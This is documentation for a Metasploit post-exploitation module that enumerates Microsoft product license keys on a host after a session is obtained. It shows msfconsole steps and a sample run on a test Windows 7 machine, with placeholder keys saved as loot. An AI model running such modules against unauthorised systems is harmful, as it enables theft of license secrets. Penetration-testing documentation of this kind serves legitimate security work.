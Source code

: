 ## Vulnerable Application

This module will enumerate Microsoft product license keys.

## Verification Steps

1. Start msfconsole
2. Get a session
3. Do: `use post/windows/gather/enum_ms_product_keys`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options

## Scenarios

### Windows 7 Professional SP1 (x64)

```
msf > use post/windows/gather/enum_ms_product_keys
msf post(windows/gather/enum_ms_product_keys) > set session 1
session => 1
msf post(windows/gather/enum_ms_product_keys) > run

[*] Finding Microsoft product keys on TEST (192.168.200.190)

Keys
====

 Product                 Registered Owner  Registered Organization  License Key
 -------                 ----------------  -----------------------  -----------
 Windows 7 Professional  Windows User                               N0TMY-K3Y55-N0TMY-K3Y55-N0TMY
 Windows 7 Professional  Windows User                               N0TMY-K3Y55-N0TMY-K3Y55-N0TMY


[+] Product keys stored in: /root/.msf4/loot/20220814092725_default_192.168.200.190_host.ms_keys_579592.txt
[*] Post module execution completed
```
